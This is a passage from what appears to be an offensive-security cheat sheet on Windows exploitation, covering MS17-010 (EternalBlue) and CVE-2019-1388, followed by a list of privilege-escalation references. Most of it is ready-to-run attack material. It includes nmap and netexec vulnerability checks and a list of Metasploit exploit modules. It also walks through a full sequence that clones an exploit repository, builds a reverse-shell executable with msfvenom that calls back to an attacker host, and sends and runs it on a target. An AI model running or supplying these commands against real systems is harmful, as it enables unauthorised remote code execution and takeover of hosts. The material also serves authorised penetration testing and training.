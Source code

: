 Check the vulnerability with the following nmap script or netexec: `netexec smb 10.10.10.10 -u '' -p '' -d domain -M ms17-010`.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17–010 <ip_netblock>
```

Metasploit modules to exploit `EternalRomance/EternalSynergy/EternalChampion`.

```powershell
auxiliary/admin/smb/ms17_010_command          MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
auxiliary/scanner/smb/smb_ms17_010            MS17-010 SMB RCE Detection
exploit/windows/smb/ms17_010_eternalblue      MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
exploit/windows/smb/ms17_010_eternalblue_win8 MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
exploit/windows/smb/ms17_010_psexec           MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

If you can't use Metasploit and only want a reverse shell.

```powershell
git clone https://github.com/helviojunior/MS17-010

# generate a simple reverse shell to use
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```

### CVE-2019-1388

Exploit : [packetstormsecurity/hhupd.exe](https://packetstormsecurity.com/files/14437/hhupd.exe.html)

Requirement:

* Windows 7
* Windows 10 LTSC 10240

Failing on :

* LTSC 2019
* 1709
* 1803

Detailed information about the vulnerability : [Thanksgiving Treat: Easy-as-Pie Windows 7 Secure Desktop Escalation of Privilege - Simon Zuckerbraun - November 19, 2019](https://www.zerodayinitiative.com/blog/2019/11/19/thanksgiving-treat-easy-as-pie-windows-7-secure-desktop-escalation-of-privilege)

## References

* [ABUSING ARBITRARY FILE DELETES TO ESCALATE PRIVILEGE AND OTHER GREAT TRICKS - Simon Zuckerbraun - March 17, 2022](https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-and-other-great-tricks)
* [Abusing Diaghub - xct - March 7, 2019](https://vulndev.io/2019/03/06/abusing-diaghub/)
* [Abusing SeLoadDriverPrivilege for privilege escalation - June 14, 2018 - OSCAR MALLO](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/)
* [Abusing the SeRelabelPrivilege - @decoder_it - May 30, 2024](https://decoder.cloud/2024/05/30/abusing-the-serelabelprivilege/)
* [Alternative methods of becoming SYSTEM - Adam Chester @_xpn_ - November 20, 2017](https://blog.xpnsec.com/becoming-system/)
* [Basic Linux Privilege Escalation - g0tmi1k - August 2, 2011](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Bypassing AppLocker by abusing HashInfo - Ian - August 19, 2022](https://shells.systems/post-bypassing-applocker-by-abusing-hashinfo/)